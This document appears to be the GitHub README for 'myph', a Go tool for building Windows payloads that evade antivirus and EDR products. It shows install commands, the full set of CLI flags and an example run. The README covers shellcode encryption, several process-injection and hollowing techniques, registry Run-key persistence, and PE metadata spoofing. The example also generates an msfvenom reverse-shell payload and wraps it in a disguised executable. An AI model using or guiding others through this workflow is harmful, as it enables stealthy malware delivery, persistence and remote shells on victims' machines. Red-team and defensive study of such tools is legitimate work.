 # myph

AV/EDR bypass payload creation tool

## Disclaimer

The access to and the use of the information on this repository is free of charge,
but implies the tacit acceptance by the user of the following conditions, without prejudice to the applicable legal provisions.
The user acknowledges that this repository is intended for informational purposes only and therefore serves only
for general information and testing. The tool and this repository are carefully compiled on the basis of good sources and references.

However, the developers cannot be held liable for for any damage, direct or indirect, of whatever nature as a result of
or related to the access to or use of the software.

## How to use the software ?

> Please note this project is under development & subject to changes.
> Breaking changes can be introduced from release to release.

### Compiling or Installing the project

You can easily compile like so:
```bash
# if you have make installed
make  # you can also use `make help` to check recipes

# if you don't
go build -o myph .
```

> You can also grab the latest release from [here](https://github.com/CMEPW/myph/releases/)

Finally, you can install from the [golang package repository](https://pkg.go.dev/github.com/CMEPW/myph) like so:
```bash
# /!\ lowercase is important /!\
go install github.com/cmepw/myph@latest
```

### Usage

```

              ...                                        -==[ M Y P H ]==-
             ;::::;
           ;::::; :;                                    In loving memory of
         ;:::::'   :;                               Wassyl Iaroslavovytch Slipak
        ;:::::;     ;.
       ,:::::'       ;           OOO                       (1974 - 2016)
       ::::::;       ;          OOOOO
       ;:::::;       ;         OOOOOOOO
      ,;::::::;     ;'         / OOOOOOO
    ;::::::::: . ,,,;.        /  / DOOOOOO
  .';:::::::::::::::::;,     /  /     DOOOO
 ,::::::;::::::;;;;::::;,   /  /        DOOO        AV / EDR evasion framework
; :::::: '::::::;;;::::: ,#/  /          DOOO           to pop shells and
: ::::::: ;::::::;;::: ;::#  /            DOOO        make the blue team cry
:: ::::::: ;:::::::: ;::::# /              DOO
 : ::::::: ;:::::: ;::::::#/               DOO
 ::: ::::::: ;; ;:::::::::##                OO       written with <3 by djnn
 :::: ::::::: ;::::::::;:::#                OO                ------
 ::::: ::::::::::::;' :;::#                O             https://djnn.sh
   ::::: ::::::::;  /  /  :#
   :::::: :::::;   /  /    #

Usage:
  myph [flags]
  myph [command]

Available Commands:
  completion  Generate the autocompletion script for the specified shell
  help        Help about any command
  spoof       spoof PE metadata using versioninfo

Flags:
      --api-hashing-type string   Hashing algorithm used for API hashing (default "DJB2")
  -d, --debug                     builds binary with debug symbols
  -e, --encryption encKind        encryption method. (allowed: AES, chacha20, XOR, blowfish) (default AES)
  -h, --help                      help for myph
  -k, --key string                encryption key, auto-generated if empty. (if used by --encryption)
  -f, --out string                output name (default "payload.exe")
  -z, --persistence string        name of the binary being placed in '%APPDATA%' and in 'SOFTWARE\Microsoft\Windows\CurrentVersion\Run' reg key (default: "")
  -p, --process string            target process to inject shellcode to (default "cmd.exe")
  -s, --shellcode string          shellcode path (default "msf.raw")
      --sleep-time uint           sleep time in seconds before executing loader (default: 0)
  -t, --technique string          shellcode-loading technique (allowed: CRT, CRTx, CreateFiber, ProcessHollowing, CreateThread, NtCreateThreadEx, Syscall, SyscallTest, Etwp) (default "CRT")
      --use-api-hashing           Use API Hashing
  -v, --version                   version for myph

Use "myph [command] --help" for more information about a command.
```

#### Loader Methods

This tool supports few methods for now, but aims to add more as time goes on:
- Syscall
- CreateFiber
- CreateThread
- NtCreateThreadEx
- Process hollowing
- EnumCalendarInfoA
- CreateRemoteThread
- EtwpCreateEtwThread
- CreateRemoteThreadEx

If you don't know what that is about, go check out [this repository](https://github.com/CMEPW/BypassAV) :)~


#### Example run

Generate a payload like so:

```bash
# generate your payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.2 LPORT=1234 -f raw -o msf.raw

# run myph (--shellcode is not mandatory here because we use the default value)
./myph --shellcode msf.raw --out something.exe

# you should find your payload here
file ./something.exe

# add some program metada
./myph spoof --pe something.exe --file .github/test-data/example.json
```

#### Using docker

```bash
# using makefile
make docker

# going through dockerfile directly
docker build . -t myph:latest
```

#### Editing file properties

A subcommand is available to edit a PE file's properties & change its icon or file version (for instance).
For more information on CLI usage, you can run:
```bash
# will give you a little help display
./myph spoof --help

# will edit demo.exe with the data specified in example.json
./myph spoof --pe demo.exe --file example.json
```

It expects a JSON file, containing the metadata you want to set. You can find an example in `.github/test-data` directory.

Information on resource types and language IDs can be found [here](https://learn.microsoft.com/en-us/windows/win32/menurc/resource-types) and [here](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-lcid/70feba9f-294e-491e-b6eb-56532684c37f).

You can set data depending on the language.
BMP, ICO, and PNG files are supported, and you can a wide array of information:

```json
{
  "RT_VERSION": {
    "#1": {
      "0000": {
        "fixed": {
          "file_version": "1.2",
          "product_version": "1.2.3",
          "flags": "Debug,Patched",
          "timestamp": "2020-12-18T23:00:00+01:00"
        },
        "info": {
          "0409": {
            "Comments": "that should do it",
            "CompanyName": "Smersh",
            "FileDescription": "smrsh 4 evr",
            "FileVersion": "1.2",
            "InternalName": "",
            "LegalCopyright": "GNU GPL v3",
            "LegalTrademarks": "",
            "OriginalFilename": "myph.exe",
            "PrivateBuild": "",
            "ProductName": "myph ldr",
            "ProductVersion": "1.2 release",
            "SpecialBuild": ""
          },
          "040C": {
            "Comments": "ca devrait le faire",
            "CompanyName": "Smersh",
            "FileDescription": "smrh pr tjrs",
            "FileVersion": "1.2",
            "InternalName": "",
            "LegalCopyright": "GNU GPL v3",
            "LegalTrademarks": "",
            "OriginalFilename": "myph.exe",
            "PrivateBuild": "",
            "ProductName": "myph ldr",
            "ProductVersion": "1.2 release",
            "SpecialBuild": ""
          }
        }
      }
    }
  }
}
```

### Contributing

Contributions are welcome, but please try to keep PRs short and issues descriptive. :)~

A guide on how to use the tool is in the works, please let us know if you're interested in helping out.
